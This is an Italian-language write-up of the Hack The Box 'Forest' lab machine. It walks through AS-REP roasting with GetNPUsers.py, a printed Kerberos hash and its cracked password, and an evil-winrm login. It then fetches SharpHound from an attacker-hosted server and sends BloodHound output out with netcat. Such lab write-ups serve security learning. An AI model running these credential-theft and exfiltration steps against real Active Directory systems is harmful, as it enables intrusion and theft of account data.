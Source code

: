 ## KRoasting

```
./GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
```
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:ec4d096609a114fdd785e8801296118b$d4d812103974b1956e271eba42443d7c7a730d8b8d51a3c9f95e2c689f7cf8d14d2852e56bc450307450b6dc0a81bfd3b7aa12daf6e8272d4075326873068f5c5fedca2fb306364a47ce9419ca852b76d47acb4712d5adaa236bab4e868f306f5cbd35fc78af74708623c68374aefc3ba120217173f91f9eb352fff0ebec23d99a6d479a061eddd60a326e9e3ea68dac62f62314944ef34ee61f31cbf49c02fc1268312aee4e65baa231bdf33d353e7c6f221ce8e7e89a53158f5a8b2672a717231ee3f5040f2bd58dfba3b92132f9d5c331c921978b8b6375673b40ba2456737e8c7e16ed5c
```


--OPPURE--
```

python GetNPUsers.py htb.local/ -no-pass -usersfile ../../forest_user.txt -dc-ip 10.10.10.161
```



Il contenuto di forest_user.txt è dato da enum4linux. Tra cui c'è svc-alfresco che è l'unico per cui si riesce ad estrarre l'hash.



Password dell'hash: s3rvice
## --PTH--

Benissimo, ottenuto l'hash finalmente posso mettere in pratica una tecnica che ho sempre voluto provare: la PTH:
```
evil-winrm -u svc-alfresco -H "6a2929599dd19458e2c15587a7c870e5$d7a17216a7094b7ddece4533f3255c63b0906bfde35e2bdb75c40bff8f791a2a0d80d905e8d306a5d1e1060a9cb7c44f652caf14c7e74138259ddda20a9a1040a236d708f183cae602c195261bf614a381d822b11ecf3870becd7a1b4f7c9db4339023bf7aa7d5e7ddf00836385f075f52a814e63df0826a4b6937d3789bafa0c2c9735bbd9378b50125db20fad4a884b4e7f298cb5a8e244fa31b4c379a9131f4977ff4bd5a270e3d6e52e3ae32bdd550312cdba3ea40891033b330791bc3415a709fcd592165b3e4a6b0150a58f1ffe962a9a2783d4b973c99c118cae4535030169f2c8f63" -i 10.10.10.161
```

Come non detto, quella tecnica non funziona.

Rompo l'hash banalmente con John:

```
john --wordlist=rockyou.txt hash.txt
```

Ed entro con la password:

```
evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```

A questo punto presa la tanta faticata user flag comincio con la fase di PrivEsc. Dato il nome della challenge capisco che devo interagire con l'Active Directory. Uso per tal motivo BloodHound.

## PrivEsc

Prima cosa che faccio è scaricare dentro \tmp l'exe necessario: SharpHound. Provo con un wget e curl ma non funzionano. Banalmente lo carico in una cartella 'pubblica' (python simplehttpserver) e lo scarico all'interno della macchina con:
```
Invoke-WebRequest http://IP:8000/SharpHound.exe -o SharpHound.exe
```
Lo eseguo con 
```
.\SharpHound.exe -c all
```
Lascio che prelevi tutto e che generi i vari due file (.zip e .bin). A questo punto sorge un problema! Come passare dalla macchina Win a Linux i due file? 


Con la stessa tecnica di prima carico dentro la macchina NetCat, quindi passo verso Kali i due file:
```
.\nc.exe -w 3 IP 9191 | 20200317113311_BloodHound.zip
```


